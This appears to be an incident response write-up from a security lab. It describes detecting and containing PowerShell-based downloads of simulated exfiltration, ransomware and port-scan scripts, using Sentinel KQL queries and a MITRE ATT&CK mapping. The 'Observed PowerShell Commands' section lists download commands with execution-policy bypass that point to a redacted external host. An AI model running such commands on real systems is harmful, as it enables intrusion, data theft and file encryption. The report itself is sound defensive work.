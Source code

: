 🛡️ Incident Response Report – Haider Naqvi

Scenario: PowerShell Suspicious Web RequestFramework: NIST 800-61 (Computer Security Incident Handling Lifecycle)


## ⚙️ Step 1: Preparation

- Microsoft Sentinel and Microsoft Defender for Endpoint (MDE) were configured for log forwarding.
- DeviceProcessEvents logs were actively collected and ingested into Sentinel.
- Alert rule designed to detect PowerShell-based downloads using Invoke-WebRequest.
- Training provided to analysts on recognizing post-exploitation behavior.

Use Case Summary:
Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as Invoke-WebRequest, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. This tactic is a hallmark of post-exploitation activity, enabling them to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

## 🔎 Step 2: Detection and Analysis

Analytics Rule Configuration:
- Rule Name: Haider - PowerShell Suspicious Web Request
- Description: Detects usage of PowerShell to download files from the internet.
- Severity: Medium
- Run Frequency: Every 4 hours
- Lookup Period: Last 24 hours
- Entity Mapping:
  - Account: AccountName
  - Host: DeviceName
  - Process: ProcessCommandLine
- Incident Creation: Enabled
- Group all alerts into one incident per 24 hours: Enabled
- Stop query after alert: Enabled

📍 Alert Rule KQL Query

let TargetHostname = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated



📝 Observed PowerShell Commands:

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://.../exfiltratedata.ps1' -OutFile 'C:\programdata\exfiltratedata.ps1'
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://.../eicar.ps1' -OutFile 'C:\programdata\eicar.ps1'
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://.../pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1'
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://.../portscan.ps1' -OutFile 'C:\programdata\portscan.ps1'



🧑 User Statement:
User stated they tried to install a free utility tool and a black screen appeared briefly, then nothing happened.



✅ Confirm Script Execution - KQL Query

let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine

🔬 Script Analysis Summary:
- exfiltratedata.ps1 → Attempts to send files to an external destination.
- eicar.ps1 → EICAR test script used to trigger antivirus detection.
- pwncrypt.ps1 → Encrypts files (simulated ransomware behavior).
- portscan.ps1 → Scans local and network ports (reconnaissance).

## 🛠️ Step 3: Containment, Eradication, and Recovery

Containment Actions:
- Isolated the affected VM using Microsoft Defender for Endpoint.
- Ran a full anti-malware scan.
- Verified no persistence mechanisms or lateral movement.
- Removed machine from isolation and restored to operational status.

Execution Findings:
- exfiltratedata.ps1 and portscan.ps1 were executed by local user account.
- exfiltratedata.ps1 attempted data transfer.
- portscan.ps1 performed local port scanning.

## 📘 Step 4: Post-Incident Activities

Lessons Learned:
- Affected user enrolled in enhanced cybersecurity awareness training.
- KnowBe4 awareness campaign frequency increased.
- PowerShell restricted to admin accounts only.
- Sentinel detection logic updated for better script activity detection.

Closure:
- Incident marked as "True Positive".
- Case notes and timeline finalized.
- Incident closed successfully in Sentinel.

## 🧩 MITRE ATT&CK Mapping

| Technique ID  | Name                                 | Description                                        |
|---------------|--------------------------------------|----------------------------------------------------|
| T1059.001     | PowerShell                           | Abuse of PowerShell to execute downloaded scripts  |
| T1105         | Ingress Tool Transfer                | Remote tools/scripts downloaded to endpoint        |
| T1071.001     | Application Layer Protocol: Web      | HTTP/HTTPS used for C2 and data transfer           |
| T1562.001     | Impair Defenses: ExecutionPolicy Bypass | Disable script protections via policy bypass   |

